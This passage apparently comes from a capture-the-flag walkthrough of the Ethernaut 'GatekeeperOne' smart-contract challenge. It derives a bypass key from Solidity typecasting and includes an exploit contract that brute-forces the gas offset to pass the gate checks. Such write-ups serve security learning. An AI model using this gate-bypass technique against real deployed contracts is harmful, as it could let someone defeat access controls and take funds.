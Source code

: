Now let's assume our key as `B1 B2 B3 B4 B5 B6 B7 B8` where each B represents a byte. Since the key is 8 bytes there are 8 B's.

In the first condition, `uint32(uint64(_gateKey))` will return `B5 B6 B7 B8` and `uint16(uint64(_gateKey))` will return `B7 B8`. According to the condition, the bytes are `B5 B6 B7 B8` and `B7 B8`. This condition will only be satisfied if `B5` and `B6` are both zeros. Therefore, we can conclude that the last four bytes of our key will be `00 00 B7 B8`.

In the second condition uint32(uint64(\_gateKey)) will return `B5 B6 B7 B8` and uint64(\_gateKey) will return `B1 B2 B3 B4 B5 B6 B7 B8`. The condition will be satisfied only if `B1 B2 B3 B4` are non-zeros. From this, we can conclude that the key will be `B1 B2 B3 B4 00 00 B7 B8`.

In the third condition uint32(uint64(\_gateKey)) will return `B5 B6 B7 B8` and uint16(uint160(tx.origin)) will return last two bytes of the address. Suppose if our address is `0x95222290DD7278Aa3Ddd389Cc1E1d165CC4BAfe5` it will return `0xAfe5`. Assuming this as our wallet address we can conclude that our key will be `B1 B2 B3 B4 00 00 Af e5`.

The only restriction for `B1 B2 B3 B4` is it shouldn't be zero. That means this can be of any value. Now our key will be `aa bb cc dd 00 00 Af e5` which is `0xaabbccdd0000Afe5`.

Don't forget to change the last two bytes to your wallet address.

{{< collapsible "Click to view Exploit contract" >}}

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {GatekeeperOne} from "./GatekeeperOne.sol";


contract ExploitGatekeeperOne{
    GatekeeperOne Gate1;
    uint256 gasAmount=81910;
    constructor(address _addr){
        Gate1=GatekeeperOne(_addr);
    }
    function Exploit()public{
        bytes8 Key=0xaabbccdd0000Afe5;
        for(uint256 i=0;i<500;i++){
        (bool success,)=address(Gate1).call{gas:gasAmount+i}(abi.encodeWithSignature("enter(bytes8)",Key));
            if(success){
                break;
            }
        }
        require(Gate1.entrant()==0x95222290DD7278Aa3Ddd389Cc1E1d165CC4BAfe5);
    }
}
```

{{< /collapsible>}}

`gasAmount` is a multiple of `8191` because `i` will be the initial gas usage and after `i` amount of gas. Once the initial gas usage (calls before Gatetwo) is done the gasleft() will be multiple of 8191 and hence `gasleft()%8191` will return 0
